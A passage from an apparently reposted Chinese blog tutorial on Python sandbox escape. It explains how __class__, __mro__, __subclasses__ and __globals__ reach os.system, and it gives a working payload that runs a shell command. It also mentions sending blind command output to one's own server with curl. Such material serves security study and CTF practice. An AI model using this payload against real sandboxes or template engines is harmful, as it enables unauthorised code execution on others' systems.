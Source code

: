 输出

```
-
71 <class 'site._Printer'>
-
-
-
-
76 <class 'site.Quitter'>
```

payload:

	''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')

构造paylaod的思路和构造文件读取的是一样的。只不过命令执行的结果无法直接看到，需要利用curl将结果发送到自己的vps或者利用ceye)

以上内容转载自： [https://www.freebuf.com/column/187845.html](https://www.freebuf.com/column/187845.html)

感谢作者写了这么好的一篇文章。

我们再来看看这位大佬写的。https://blog.csdn.net/zss192/article/details/104200493

下面我把他内容也转载一下。

## python沙箱逃逸

#### 一些常见的寻找特殊模块的方式

```
__class__:获得当前对象的类
__bases__:列出其基类
__mro__ :列出解析方法的调用顺序，类似于bases
__subclasses__()：返回子类列表
__dict__ ： 列出当前属性/函数的字典
__init__  : 一般跟在类的后面，相当于实例化这个类
__globals__ : 以字典的形式返回函数所在的全局命名空间所定义的全局变量
```

这个上面已经有了，但是再写一遍，加强记忆。

```
>>> [].__class__
<type 'list'>
```

python的内置对象有一个class属性来存储类型，我们可以使用base属性往上找他的父类

```
>>> [].__class__.__base__
<type 'object'>
```

得到object对象后之后我们可通过属性subclasses来查看object的所有子类

```
>>> [].__class__.__base__.__subclasses__()
```